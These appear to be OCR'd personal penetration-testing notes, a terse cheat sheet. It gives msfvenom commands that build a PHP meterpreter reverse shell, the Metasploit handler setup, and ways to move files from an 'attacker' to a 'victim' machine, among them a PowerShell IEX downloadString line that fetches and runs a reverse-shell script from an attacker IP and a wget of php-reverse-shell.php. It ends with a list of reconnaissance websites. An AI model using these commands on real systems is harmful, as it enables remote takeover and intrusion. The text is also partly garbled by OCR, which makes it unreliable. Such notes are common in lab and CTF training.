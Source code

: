 | 1] msfvenom  --list=payloads |grep Android |  |

| 2] android/meterpreter/reverse_tcp  , cmd/linux/http/x64/meterpreter/reverse_tcp , cmd/windows/http/x64/meterpreter/reverse_tcp , php/meterpreter_reverse_tcp  |  |
| 3] msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attackerip give> LPORT=<lisningport give> -f raw > file.php    |  |
| 4] msfconsole -q |  |
| 5] use exploit/multi/handler |  |
| 6] set payload , set lhost attacker ip.  |  |
| 7] run |  |
| https://www.revshells.com/ |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# File transfer attacker machine to victume machine

| 1 | http server |  |
| --- | --- | --- |
|  | attacker :-  python3 -m http.server 8000 | we open hhtp server bec we download any file attacker to vecteam machine using wget command |
| linux | vecteam :-  wget 10.10.14.3:8000/php-reverse-shell.php  -O  -O /dev/shm/php-rev-shell.php | put attacker ip and port and file name which you want to download. |
| windows | vecteam :- powershell -c "IEX(New-Object Net.webClient).downloadString( '[http://10.10.14.19:8000/](http://10.10.14.19:8000/Invoke-PowerShellTcp2.ps1)file name' )" | put attacker ip and port and file name which you want to download in vectem machine . |
| use wget | victeam :-  wget  http://Attacker ip:8000/file path and name  |  |
|  | —————————————————————————— |  |
| 2 | NetCat  |  |
|  | attacker :-  $  nc -nvlp 6666 < pspy64 | < sent file |
|  | vecteam :- $  nc -nv 10.10.14.10 6666 > pspy64 | > receive file |
|  |  |  |
| 3 | attacker :-  |  |
|  | vecteam :-  |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 🌐 **Online Networking Tools & Websites:*

| 🌐 Website | 📋 Use |
| --- | --- |
| [https://whatismyipaddress.com](https://whatismyipaddress.com/) | IP + geolocation |
| [https://ipinfo.io](https://ipinfo.io/) | Detailed IP info |
| [https://shodan.io](https://shodan.io/) | Find internet-connected devices |
| [https://censys.io](https://censys.io/) | Host scanning, banner grabbing |
| [https://dnsdumpster.com](https://dnsdumpster.com/) | DNS records & subdomain finder |
| [https://yougetsignal.com](https://yougetsignal.com/) | Port scanning |
| [https://viewdns.info](https://viewdns.info/) | WHOIS, DNS, Reverse IP tools |